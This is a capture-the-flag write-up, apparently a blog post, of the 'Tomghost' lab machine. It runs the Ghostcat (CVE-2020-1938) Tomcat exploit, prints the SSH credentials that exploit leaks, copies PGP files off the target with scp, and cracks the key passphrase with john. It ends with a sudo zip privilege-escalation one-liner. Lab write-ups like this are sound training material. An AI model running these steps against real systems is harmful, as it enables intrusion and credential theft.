 +++
title = 'Tomghost'
date = 2024-09-12T23:14:19-04:00
+++

tomghost
===

### environment
KALI Linux ip 10.10.214.53

TARGET 10.10.94.155
###  Flags

- [x] Compromise this machine and obtain user.txt

First step, we namp scan which port are open and vulnerability

```
nmap -sV -sC 10.10.94.155
```

We know port 22 53 8009 8080 are open

![image](https://user-images.githubusercontent.com/67756786/194012149-caca49b0-a4a8-423f-a47e-501d61940d3d.png)

Now we visit 8080 page, and enumerate it.

![image](https://user-images.githubusercontent.com/67756786/194012721-d4a3b640-9642-47dc-86a5-e91f0f0d3ff6.png)

Enumerate web page

![image](https://user-images.githubusercontent.com/67756786/194013210-82d401e5-fba0-4457-9a46-6133945d398d.png)

In short , we got Apache Tomcat V9.0.30 and /examples. These two points seems to be injection.

Now we search vulnerability on google.

Tomcat can be RCE if that is old version.

V9.0.30 is't fixex version, we can use this vulnerability.
![image](https://user-images.githubusercontent.com/67756786/194015465-89303821-d433-475b-8198-72e99c2d1357.png)

/examples doesn't seem to have vulnerability

https://saucer-man.com/information_security/507.html

Now we git clone RCE python script, and excute this.

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git
python2.7 CVE-2020-1938.py 10.10.94.155 -p 8009 -f WEB-INF/web.xml
```
We can use this informaion to connet ssh .(skyfuck:8730281lkjlkjdqlksalks)
![image](https://user-images.githubusercontent.com/67756786/194019203-449285bb-0a0d-4b72-9ad3-88cc617b836f.png)

```
ssh skyfuck@10.10.94.155
```

We got first shell, and then confirm are we sudoer.

skyfuck should common user.

![image](https://user-images.githubusercontent.com/67756786/194020834-152a82e3-f7a4-4948-ae0d-aca7634df2ed.png)

Into /home dictionary confirm which user on machine.

![image](https://user-images.githubusercontent.com/67756786/194021167-9a11ae0d-4f72-4065-8ed9-91dab0f90d34.png)

Into merlin dictionary , we got user.txt.
![image](https://user-images.githubusercontent.com/67756786/194021208-7ed24479-6a0c-499b-a945-3680d1e164ec.png)

Into skyfuck dictionary, we got one asc file and pgp file.

![image](https://user-images.githubusercontent.com/67756786/194021490-89f47a28-dfec-4722-9f39-77986505bee9.png)


- [x] Escalate privileges and obtain root.txt

Scp both file.
```
scp tryhackme.asc root@10.10.214.53:~/tryhackme.asc
scp credential.pgp root@10.10.214.53:~/credential.pgp
```
check tryhackme.asc content, we know this file is PGP private key.

![image](https://user-images.githubusercontent.com/67756786/194023131-9d9ffcea-8bef-4be5-9dca-5489fd684eb6.png)

Now we can use john to crack.

```
gpg2john tryhackme.asc > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Now we have gpg private key to crack credential.pgp
![image](https://user-images.githubusercontent.com/67756786/194025726-97709d6a-db3f-4287-bea7-7178bf98bdcd.png)

import private key, first.
```
gpg --import tryhackme.asc
```
![image](https://user-images.githubusercontent.com/67756786/194026019-301bf640-69a3-4209-92ce-e986bd061c99.png)

```
gpg --decrypt credential.pgp
```

![image](https://user-images.githubusercontent.com/67756786/194026271-29a81f59-490b-4c2f-bb94-b25a84bb160e.png)


Into skyfuck ssh and chanche user to merlin.

Check merlin privillege

![image](https://user-images.githubusercontent.com/67756786/194026946-b02f54fc-be49-46ce-8f67-a7b40cb9d0d9.png)

GTFOBins has teaching how to privilege escalation from zip

![image](https://user-images.githubusercontent.com/67756786/194027275-cd1e88a8-e6a4-4f46-87fd-7b0e829e6afa.png)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```
![image](https://user-images.githubusercontent.com/67756786/194027423-5098d5d6-9fc3-487c-a7f9-12d2a82543e5.png)

Finally, we got root.txt
![image](https://user-images.githubusercontent.com/67756786/194027634-b44cde17-4f97-40a2-a34d-ef48351b7c00.png)



